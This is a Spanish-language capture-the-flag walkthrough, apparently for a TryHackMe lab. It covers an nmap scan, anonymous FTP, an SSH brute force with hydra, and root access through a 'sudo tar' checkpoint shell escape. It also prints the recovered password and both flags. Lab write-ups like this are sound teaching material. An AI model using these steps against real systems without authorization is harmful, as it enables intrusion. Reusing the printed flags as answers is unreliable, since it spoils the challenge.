 Ip victima: 10.10.142.48

## Nmap

Realizamos un scaneo rápido

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn 10.10.142.48

| PORT  | SERVICE |
| ------------- | ------------- |
| 21  | FTP  |
| 22  | SSH  |
| 80  | APACHE  |

## FTP

ftp 10.10.142.48
user: anonymous

Listamos los archivos que hay en el servidor con el comando dir

```bash
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

mediante el comando get nos bajamos los dos archivos
```bash
get task.txt
get locks.txt
```

Una vez tenemos descargado los dos archivos, vemos el contenido de ellos mediante cat

```bash
cat task.txt
cat locks.txt
```
En el archivo task.txt vemos que hay un posible usuario "lin" y en el archivo locks.txt vemos que es un diccionario de contraseñas.


## Fuerza bruta

```bash
hydra ssh://10.10.142.48 -l lin -P locks.txt
```
Obtenemos el siguiente resultado:

```bash
[22][ssh] host: 10.10.142.48   login: lin   password: RedDr4gonSynd1cat3
```

## SSH

```bash
ssh lin@10.10.142.48
Password: RedDr4gonSynd1cat3
```

Realizamos un ls y vemos la primera flag: user.txt
Mediante cat vemos el contenido del archivo: THM{CR1M3_SyNd1C4T3}

Realizamos el comando sudo -l para ver donde tiene permisos de ejecucion el usuario lin

```bash
sudo -l
password: RedDr4gonSynd1cat3
```

Se puede ver que podemos ejecutar tar como root.

Accedemos a la página https://gtfobins.github.io/ y buscamos tar

Vamos a Sudo

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Para recuperar la terminal ejecutamos el siguiente comando.

```bash
script /dev/null -c bash
```
Ejecutamos el comando whoami y vemos que somos root.

Accedemos al direcctorio root y listamos directorios

```bash
root@bountyhacker:/root# cat root.txt 
THM{80UN7Y_h4cK3r}
```

